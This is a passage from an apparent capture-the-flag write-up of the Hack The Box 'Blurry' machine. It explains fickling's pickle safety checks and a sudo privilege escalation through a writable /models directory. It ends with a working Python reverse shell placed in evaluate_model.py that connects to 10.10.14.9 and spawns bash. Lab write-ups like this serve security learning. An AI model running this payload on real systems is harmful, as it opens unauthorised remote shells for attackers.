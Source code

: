 > **Delving into the file `analysis.py`**
>
>Given that when the `check_safety` function is called without specifying the `analyzer` parameter, it is set to `None`, which causes the `analyzer` parameter to be reassigned to `Analyzer.default_instance`
>
>![](/assets/images/HTB-Writeup-Blurry/Pasted image 20240614181753.png)
>	
>
>It's worth mentioning that `Analyzer` comes from the metaclass `AnalyzerMeta`.
>
>![](/assets/images/HTB-Writeup-Blurry/Pasted image 20240614192829.png)
>	
>	
>With that in mind, within the definition of the metaclass `AnalyzerMeta`, a static method `default_instance` is defined that can be accessed like an attribute. Inside the `default_instance` method, the `_DEFAULT_INSTANCE` variable, which points to an instance of the `Analyzer` class, is reassigned to hold an instance of the `Analyzer` class that in turn contains an instance of the `Analysis` class.
>
>![](/assets/images/HTB-Writeup-Blurry/Pasted image 20240614191603.png)
>		
>`Analysis.ALL` is a class variable in the abstract class `Analysis`, which maintains a list of all concrete subclasses that have been created from `Analysis`.
>
>![](/assets/images/HTB-Writeup-Blurry/Pasted image 20240614192604.png)
>		
> It's important to note that thanks to the methods of subclasses like `OvertlyBadEvals`, `UnsafeImports`, etc., which inherit from the `Analysis` class, [`fickling`](https://github.com/trailofbits/fickling) performs the verification of whether a `pickle` is `safe` or `unsafe`.
>		
>![](/assets/images/HTB-Writeup-Blurry/Pasted image 20240614195235.png)
{: .prompt-info }

## Root - Sudo Rights Abuse
- The pentester enumerated the permissions of the `/models` directory and observed that the user `jippity` has write permissions on the `/models` directory. This allows `jippity` to create their own `/models/evaluate_model.py`, potentially enabling them to obtain a reverse shell!

![](/assets/images/HTB-Writeup-Blurry/Pasted image 20240614201550.png)

- So, to abuse the command that `jippity` can execute as `root`, it's necessary to have a safe `pth` file to pass the validation of [`fickling`](https://github.com/trailofbits/fickling). This is straightforward to obtain; a quick search allows us to get the following `model.pth` file.

![](/assets/images/HTB-Writeup-Blurry/Pasted image 20240614202347.png)

- Then the pentester created their malicious `/models/evaluate_model.py` with the following content.

```python
import socket, subprocess, os, pty
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.10.14.9", 4445)); os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2)
pty.spawn("/bin/bash")
```
